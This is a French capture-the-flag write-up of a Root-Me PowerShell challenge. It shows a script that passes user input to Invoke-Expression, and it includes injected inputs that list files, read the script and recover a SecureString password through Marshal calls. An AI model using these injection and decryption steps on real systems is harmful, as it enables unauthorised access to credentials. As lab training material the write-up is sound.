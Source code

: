 # Powershell - SecureString

## 15 Points
### Secure My String

## Énoncé
Retrouvez le mot de passe de la base de données.

### Paramètres de connexion au challenge
| Hôte |	challenge05.root-me.org |
| --- | --- |
| Protocole |	SSH
| Port |	2225
| Accès SSH	| ssh -p 2225 app-script-ch19@challenge05.root-me.org
| Nom d'utilisateur |	app-script-ch19
| Mot de passe |	app-script-ch19

## Solution

Ce challenge nous plong directement dans un powershell ou on nous fait un semblant de base de données. Pour bien commencer ce challenge, on va d'abord regarder si on peut faire une injection de commande comme on l'a appris dans le challenge PowerShell précédent:
```Pwsh
Table to dump:
> Invoke-Expression(dir)
Connect to the database With the secure Password: System.Security.SecureString. Backup the table Invoke-Expression .git .passwd.crypt ._perms AES.key ch19.ps1
```

on trouve donc plusieurs fichiers intéressant: **.passwd.crypt AES.KEY ch19.ps1**

On va tout d'abord regarder le fichier du challenge dans l'optique de comprendre comment il marche:
```pwsh
Table to dump:
> Invoke-Expression(cat ch19.ps1)
Connect to the database With the secure Password: System.Security.SecureString. Backup the table Invoke-Expression  $KeyFile = "AES.key" $key = Get-Content $KeyFile $SecurePassword =
Get-Content .passwd.crypt | ConvertTo-SecureString -key $Key  while($true){     Write-Host "Table to dump:"     Write-Host -NoNewLine "> "      $table=Read-Host        iex "Write-Host
 Connect to the database With the secure Password: $SecurePassword. Backup the table $table" }
```

ou de manière plus belle:
```pwsh
$KeyFile = "AES.key"
$key = Get-Content $KeyFile
$SecurePassword = Get-Content .passwd.crypt | ConvertTo-SecureString -key $Key
while($true){
    Write-Host "Table to dump:"
    Write-Host -NoNewLine "> "
    $table=Read-Host
    iex "Write-Host Connect to the database With the secure Password: $SecurePassword. Backup the table $table"
}
```

Notre objectif va donc être d'essayer de faire une injection de commande ou on va manipuler $SecurePassword pour récupérer la valeur de base.

Pour cela j'ai recherché sur internet, et j'ai trouvé cela:

```pwsh
#PART1
# create aes key - keep this secure at all times
$aesKey = (2,3,1,4,54,32,144,23,5,3,1,41,36,31,18,175,6,17,1,9,5,1,76,23)
 
# set string
$plaintext = "test12345$"
 
clear-host
 
Write-Host "Plaintext: $plaintext`n"
 
# convert to secure string object
$Secure = ConvertTo-SecureString -String $plaintext -AsPlainText -Force
 
# store secure object - use output in the decryption process. Could be saved to file.
# remember, the aeskey should remain physically secured
$encrypted = ConvertFrom-SecureString -SecureString $Secure -Key $aesKey
Write-Host "Encrypted:`n$encrypted`n"
 
#PART2
$aesKey = (2,3,1,4,54,32,144,23,5,3,1,41,36,31,18,175,6,17,1,9,5,1,76,23)
# create new object using $encrypted and $aeskey
$secureObject = ConvertTo-SecureString -String $encrypted -Key $aesKey
 
# perform decryption from secure object
$decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
$decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
$decrypted
```

Ce qui correspond exactement à notre cas de figure, on va donc pour faire les ligne pour décrypter notre $SecurePassword:
```pwsh
Table to dump:
> Invoke-Expression($decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($SecurePassword))
Connect to the database With the secure Password: System.Security.SecureString. Backup the table Invoke-Expression 2477969890808
Table to dump:
> Invoke-Expression($decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto(2477969890808))
Connect to the database With the secure Password: System.Security.SecureString. Backup the table Invoke-Expression [censorship]
```

Cela à marcher parfaitement, on a récupérer le contenue de la SecureString !